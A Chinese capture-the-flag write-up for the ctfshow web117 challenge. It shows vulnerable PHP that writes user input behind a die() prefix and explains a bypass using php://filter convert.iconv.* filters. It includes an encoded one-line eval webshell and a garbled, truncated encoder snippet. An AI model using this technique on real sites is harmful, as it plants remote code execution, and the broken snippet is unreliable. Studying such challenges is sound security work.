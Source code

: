 #### web117

web87的后续 死亡绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: yu22x
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 18:16:59

*/
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

这题过滤了一些php的协议和转换器

但是没过滤掉filter和convert

我们可以考虑用filter搭配convert.iconv.*过滤器来构造出payload

参考文章：[详解php://filter以及死亡绕过_filter绕过过滤-CSDN博客](https://blog.csdn.net/woshilnp/article/details/117266628)

```php
<?php
                                                         ?>');
echo $enc;
?>
```

首先我们先将一句话木马从UCS-2BE转换成UCS-2LE

```
?<hp pe@av(l_$EG[T]1;)>?
```

接着构造payload将一句话木马从UCS-2LE转换回UCS-2BE，同时破坏掉<?php die();?>

效果如下

![image-20250108125928677](assets/image-20250108125928677.png)

